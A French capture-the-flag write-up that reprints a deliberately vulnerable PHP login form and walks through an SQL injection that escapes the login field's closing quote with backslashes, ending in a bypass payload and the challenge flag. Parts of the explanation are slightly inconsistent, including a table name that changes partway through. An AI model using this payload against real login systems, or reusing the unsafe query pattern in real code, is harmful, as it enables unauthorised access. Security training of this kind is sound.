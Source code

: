 # Web 100 - Super Query Login

Une nouvelle épreuve avec une injection SQL, la source du challenge est disponible:

> <!DOCTYPE html>
<html>
<head>
<title>SQLi</title>
</head>
<body>
<p>Bypass this auth !<br><a href="?viewsource">source</a></p>
<form action="" method="POST">
Login: <input type="text" name="login"><br>
Passw: <input type="password" name="password"><br>
<input type="submit" value="Connection">
</form>
<?php
if (isset($_POST['login']) && isset($_POST['password'])) {
require('config.php');
$login = stripslashes(htmlentities($_POST['login'], ENT_QUOTES)); **[1]**

> $pass = stripslashes(htmlentities($_POST['password'], ENT_QUOTES)); **[2]**


> $sql = "SELECT * FROM web1_users WHERE login = '" . $login . "' AND password = '" . $pass . "' ";** [3]**
$result = mysql_query($sql) or die(mysql_error());
if( mysql_num_rows($result) == 1) {
$data = mysql_fetch_array($result);
echo "You can valid with <b>".$data['password']."</b>";
}
else {
echo "<b>Wrong login/password !</b>";
}
}
?>
</body>
</html>


En [1] et [2] on a la fonction htmlentities($var, ENT_QUOTES) qui échappe les quotes (‘) et les
guillemets (“). 
Si pour le login on soumet 
> ‘or 1=1 #

, le login après avoir été passé dans htmlentities aura
la valeur \’or 1=1 # et notre injection ne fonctionnera pas.

L’idée ici c’est de profiter que l’on peut manipuler les variables $login ET $pass.
On va alors échapper le guillemet de fermeture de $login: \

La requête SQL [3] devient alors:
>SELECT * FROM chall1_users WHERE login = '\' AND password = 'toto'

En vert la partie qui sera interprétée comme le login et en rouge notre champ d’exploitation.
Cependant la variable $login est aussi passée dans la fonction stripslashes() qui a pour effet d’échapper
les back slashes. 
Il nous suffit d’injecter comme ceci: \ \ ce qui nous donnera:
> SELECT * FROM chall1_users WHERE login = '\ \ \ ' AND password = 'toto'


L’injection finale pour se connecter est la suivante.

> login=\ \ &password= or 1=1 limit 1 -- a-


On obtient ensuite le flag : **ese{Htmlentities_bypass}**
